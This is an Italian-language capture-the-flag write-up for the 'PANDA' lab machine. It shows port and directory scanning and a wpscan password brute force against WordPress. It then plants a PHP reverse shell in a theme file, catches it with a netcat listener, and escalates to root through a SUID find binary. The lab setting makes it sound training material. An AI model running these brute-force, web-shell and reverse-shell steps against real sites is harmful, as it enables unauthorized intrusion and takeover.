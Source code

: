 # PANDA

partiamo con lo scan delle porte

### ENUM

```bash
nmap panda.thm -sV -sC 
```

ottimo abbiamo la porta 80 aperta quindi una pagina web andiamo a controllarla

nulla di interessante solo un immagine

facciamo una ricerca delle directory

```bash
gobuster dir -u http://panda.thm/ -w /usr/share/wordlists/dirb/big.txt
```

interessante abbiamo la directory con  /Wordpress

guardiamo cosa c'è
```bash
http://panda.thm/wordpress
```
se c'è un pagina wordpress c'è un login quasi il 99% delle volte se non il 100%

controlliamo 
```bash
http://panda.thm/wordpress/wp-login.php
```

eccola 

facciamo uno scan insieme al brute force con WPSCAN
```bash
wpscan --url http://panda.thm/wordpress/wp-login.php --passwords /usr/share/wordlists/rockyou.txt
```

ecco qua il nostro utente po

accediamo alla pagina
## REVERSE SHELL

per chi avesse già esperienza con wordpress saltare questa spiegazione invece per chi non avesse mai visto questo CMS ci sono delle fasi che dovete imparare

wordpress lavora principalmente a pagine sotto pagine e temi molti di quest'ultimi sono vulnerabili perchè vanno ad aggiungere codice che potrebbe non essere controllato o che può avere insicurezze del codice 

quello che andrò a fare nei passaggi successivi userà un vulnerabilità del non controllo del codice 

su word press per andare a modificare i vari path del cms c'è un menu a tendina sulla destra. bene apritelo e andate nella sezione APPARENCE una volta fatto click vi si dovrebbe aprire un sotto menu con varie opzioni 
andate a selezionare editor e successivamente vi si apre un menu sulla pagina (sulla destra) andate in questo menu e selezionate la sezione comment.php
tramite questa sezione vi si apre un editor a schermo di questa pagina cancellate qualsiasi cosa ci sia scritta sopra in modo da rendere la pagina vuota e aggiungete una reverse shell (vi consiglio https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
ricardate di cambiare nel php questi valori 
```bash
$ip = '127.0.0.1';  // CHANGE THIS 
$port = 1234;       // CHANGE THIS
```
mettete il vostro ip e la vostra porta dove ascolterete il traffico 

ottimo salvate questa pagina con l'apposito tasto.


ottimo ora avviamo l'ascolto sulla nostra macchina
```bash
nc -lvnp porta scelta nel php
es. nc -lvnp 1234
```
ora tutto è pronto.

chiamiamo il nostro php tramite url (provate ad indovinare quale è l'url) (hint: ricardatevi dove avete salvato il php)

ecco qua che si avvia la nostra shell con l'utente shifu facciamo privesc
## PRIVESC

```bash
find / -perm -4000 2>/dev/null
```

interessante abbiamo una vulnerabilità di tipo suid su find controllate GTFO.BINS per avere i privilegi di root




